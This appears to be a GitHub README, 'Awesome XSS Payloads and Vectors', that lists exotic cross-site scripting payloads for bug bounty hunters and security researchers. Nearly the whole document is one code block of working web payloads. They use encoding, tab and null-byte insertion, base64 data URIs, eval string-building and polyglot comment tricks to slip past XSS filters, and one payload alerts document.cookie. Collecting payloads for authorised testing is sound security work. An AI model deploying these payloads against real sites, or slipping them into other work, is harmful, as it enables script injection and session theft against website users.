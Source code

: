 # Awesome XSS Payloads and Vectors
Exotic and uncommon XSS Vectors to hit the target as quickly as possible.
THIS IS SPECIALLY FOR BUG BOUNTY HUNTERS AND SECURITY RESEARCHERS.

I REQUEST TO CONTRIBUTE TO THE PROJECT BY INCLUDING ONLY HIGHLY EXOTIC XSS VECTORS.


```
“><svg/onload=alert(document.domain)>”@x.y

<svg onload="alert(1)" <="" svg=""

<iframe/src=j%0aa%0av%0aa%0as%0ac%0ar%0ai%0ap%0t:prompt `1`>

%22%3e%3c%5K/onwheel=alert(1)%3emouse%20wheel%20here%3c%21--

„> <img src = x onerror = javascript: alert (1); …

onerror%3Deval%3Bthrow'%3Dalert%5Cx281%5Cx29'%3B

<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

&#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>
  '
<--`<img/src=` onerror=alert(1)> --!>
  
'';!--\"&lt;XSS&gt;=&{()}

¼script¾alert(¢XSS¢)¼/script¾

“><s”%2b”cript>alert(document.cookie)</script>

<iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

a=\"get\";
b=\"URL(\\"\";
c=\"javascript&#058;\";
d=\"alert('XSS');\\")\";
eval(a+b+c+d);

<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z

<svg•onload=alert(1)>

<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //># //This payload is used to fool and bypass advanced xss filters by fooling as if it is comments.
```
